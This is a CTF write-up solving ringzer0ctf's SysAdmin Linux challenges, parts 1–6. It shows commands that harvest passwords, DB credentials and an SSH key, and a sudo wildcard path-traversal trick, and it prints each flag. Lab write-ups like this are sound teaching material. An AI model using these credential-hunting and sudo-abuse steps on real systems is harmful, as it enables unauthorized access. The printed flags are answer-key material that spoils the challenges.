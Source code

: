 ```yaml
---
title: ringzer0ctf - SysAdmin Linux
description: My writeup on ringzer0ctf SysAdmin Linux challenges.
categories:
 - ringzer0ctf
tags: ringzer0ctf linux
---
```


![](https://miro.medium.com/max/1472/1*5M1nixCj5FzRwBMVrU-EkQ.png)

You can find the challenges there > [ringzer0ctf](https://ringzer0ctf.com/challenges){:target="_blank"}

## Summary

Something different from vulnhub boxes, these challenges require command line skills! Great for beginners if they want to learn linux CLI. Let’s pwn them! :sunglasses:

## SysAdmin Part 1

![](https://i.imgur.com/VqYGrG6.png)

Let's connect to server as `morpheus:VNZDDLq2x9qXCzVdABbR1HOtz` and our goal is to find `Trinity` password!

We can see that trinity is a system user:

```
morpheus@lxc-sysadmin:~$ cat /etc/passwd | grep -i trinity
trinity:x:1001:1002::/home/trinity:/bin/bash
```

Let's use `grep` to search recursive:

```
morpheus@lxc-sysadmin:~$ grep -Ri "trinity" / 2>/dev/null
/etc/rc.local:/bin/sh /root/files/backup.sh -u trinity -p Flag-7e0cfcf090a2fe53c97ea3edd3883d0d &                                                                                                                             97ea3edd3883d0d &
```

We have the first flag! `Flag-7e0cfcf090a2fe53c97ea3edd3883d0d`

## SysAdmin Part 2

![](https://i.imgur.com/DmuTk1b.png)

We don't need to change user, our goal now is to find architect password.

Using the same `grep` technique we can detect a base64 password:

```
morpheus@lxc-sysadmin:~$ grep -R "architect" / 2>/dev/null
/etc/fstab:#//TheMAtrix/phone  /media/Matrix  cifs  username=architect,password=$(base64 -d "RkxBRy0yMzJmOTliNDE3OGJkYzdmZWY3ZWIxZjBmNzg4MzFmOQ=="),iocharset=utf8,sec=ntlm  0  0
```

Let's decode it:

```
morpheus@lxc-sysadmin:~$ echo RkxBRy0yMzJmOTliNDE3OGJkYzdmZWY3ZWIxZjBmNzg4MzFmOQ== | base64 -d
FLAG-232f99b4178bdc7fef7eb1f0f78831f9
```

We got the flag! `FLAG-232f99b4178bdc7fef7eb1f0f78831f9`

## SysAdmin Part 3

![](https://i.imgur.com/wu9VRvO.png)

Now we have to connect as `architect:FLAG-232f99b4178bdc7fef7eb1f0f78831f9` and search for the flag. We don't need to open a new SSH connection we can just use `su`:

```
morpheus@lxc-sysadmin:~$ su - architect
Password: FLAG-232f99b4178bdc7fef7eb1f0f78831f9
architect@lxc-sysadmin:~$
```

Let's search for files that owned by user architect:

```
architect@lxc-sysadmin:~$ find / -user "architect" 2>/dev/null
/var/www/index.php
```

```
architect@lxc-sysadmin:~$ cat /var/www/index.php

$info = (object)array();
$info->username = "arch";
$info->password = "asdftgTst5sdf6309sdsdff9lsdftz";
$id = 1003;
```

We can see some DB creds, let's use them with mysql & search for the flag:

```
architect@lxc-sysadmin:~$ mysql -u arch -p
Enter password:

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| arch               |
+--------------------+
2 rows in set (0.00 sec)

mysql> use arch;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_arch |
+----------------+
| arch           |
| flag           |
+----------------+
2 rows in set (0.00 sec)

mysql> select * from flag;
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| FLAG-55548fdb24a6ef248d8fdfde2720f6bd |
+---------------------------------------+
1 row in set (0.00 sec)

mysql>
```

We got that flag! `FLAG-55548fdb24a6ef248d8fdfde2720f6bd`

## SysAdmin Part 4

![](https://i.imgur.com/VzGrXtu.png)

Now we have to go back as `morpheus` & get access to oracle account. If we use the `grep` command we can see in the end a "backup" file:

```
morpheus@lxc-sysadmin:~$ grep -Ri "oracle" / 2>/dev/null
..data..
Binary file /backup/c074fa6ec17bb35e168366c43cf4cd19 matches
```

There is a SSH private key in it, let's save it into a file and login as oracle:

```
morpheus@lxc-sysadmin:/tmp$ touch key
morpheus@lxc-sysadmin:/tmp$ nano key
morpheus@lxc-sysadmin:/tmp$ chmod 600 key
morpheus@lxc-sysadmin:/tmp$ ssh -i key oracle@127.0.0.1

oracle@lxc-sysadmin:~$
```

We got the flag! 

```
oracle@lxc-sysadmin:~$ base64 -d flag.txt
FLAG-d325e738fa7d87d4f5607c302b37db20
```

## SysAdmin Part 5

![](https://i.imgur.com/XHg2IGt.png)

We have to decrypt the oracle's encrypted file:

```
oracle@lxc-sysadmin:~$ ls -la
..data..
-r-x------ 1 oracle oracle   90 Oct  2  2018 encflag.txt.enc
```

I googled around "how to decrypt enc files" and all the answers are around `openssl` tool so i tried one of the commands i found but asks for a password:

```
oracle@lxc-sysadmin:~$ openssl enc -aes-256-cbc -d -in encflag.txt.enc -out file.txt
enter aes-256-cbc decryption password:
```

Hmm, so i had the idea to use `grep` to search for `openssl` commands:

```
oracle@lxc-sysadmin:~$ grep -ri "openssl" .
./.bashrc:alias reveal="openssl enc -aes-256-cbc -a -d -in encflag.txt.enc -k 'lp6PWgOwDctq5Yx7ntTmBpOISc'"
```

So we can use the `reveal` alias to get the flag!

```
oracle@lxc-sysadmin:~$ reveal
FLAG-54e7f8d0ea560fa7ed98e832900fc45b
```

## SysAdmin Part 6

![](https://i.imgur.com/kpmb3B4.png)

Now we have to login as `trinity:Flag-7e0cfcf090a2fe53c97ea3edd3883d0d` and search for neo password!

If we run `sudo -l` we can see that we can run as neo the `/bin/cat /home/trinity/*`:

```
trinity@lxc-sysadmin:~$ sudo -l
[sudo] password for trinity:
Matching Defaults entries for trinity on lxc-sysadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User trinity may run the following commands on lxc-sysadmin:
    (neo) /bin/cat /home/trinity/*
```

We can see a copy of neo's phonebook:

```
trinity@lxc-sysadmin:~$ sudo -u neo /bin/cat /home/trinity/*
The Oracle        1800-133-7133
Persephone        345-555-1244





copy made by Cypher copy utility on /home/neo/phonebook
```

So we can do a trick here and use `..` to move to parent directory and read all phonebook:

```
trinity@lxc-sysadmin:~$ sudo -u neo /bin/cat /home/trinity/../neo/phonebook
The Oracle        1800-133-7133
Persephone        345-555-1244




change my current password FLAG-314df4d411ae37f16f590f65da99f3b6
```

We have the flag! `FLAG-314df4d411ae37f16f590f65da99f3b6`

## SysAdmin Part 7
